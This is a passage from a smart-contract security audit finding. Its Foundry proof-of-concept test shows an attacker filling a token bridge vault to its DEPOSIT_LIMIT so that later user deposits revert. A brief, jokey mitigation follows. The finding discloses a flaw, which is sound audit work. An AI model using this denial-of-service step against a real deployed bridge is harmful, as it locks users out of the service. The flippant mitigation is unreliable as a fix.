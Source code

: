 ```solidity
        token.approve(address(tokenBridge), type(uint256).max);
        tokenBridge.depositTokensToL2({
            from: attacker,
            l2Recipient: attacker,
            amount: amountToDos
        });

        assert(token.balanceOf(vaultAddr) == tokenBridge.DEPOSIT_LIMIT());
        assert(token.balanceOf(attacker) == 0);

        // random user txns
        deal(tokenAddr, randomUser, 1e18);
        vm.startPrank(randomUser);
        token.approve(address(tokenBridge), type(uint256).max);
        
        // transaction will revert because `DEPOSIT_LIMIT` has already been reached. Nobody is able to deposit tokens, thus service is denied
        vm.expectRevert(L1BossBridge.L1BossBridge__DepositLimitReached.selector);
        tokenBridge.depositTokensToL2({
            from: randomUser,
            l2Recipient: randomUser,
            amount: 1e18
        });

        assert(token.balanceOf(randomUser) == 1e18);
        assert(token.balanceOf(vaultAddr) == tokenBridge.DEPOSIT_LIMIT());
    }
```

**Recommended Mitigation:**

There is no sure mitigation for this. But, perhaps the `DEPOSIT_LIMIT` can be made so high (probably `type(uint256).max`). Because there is no monetary gain for this kind of attack, whoever performs this attack must really hate `BossBridge`. Perhaps you should make up with your enemies.




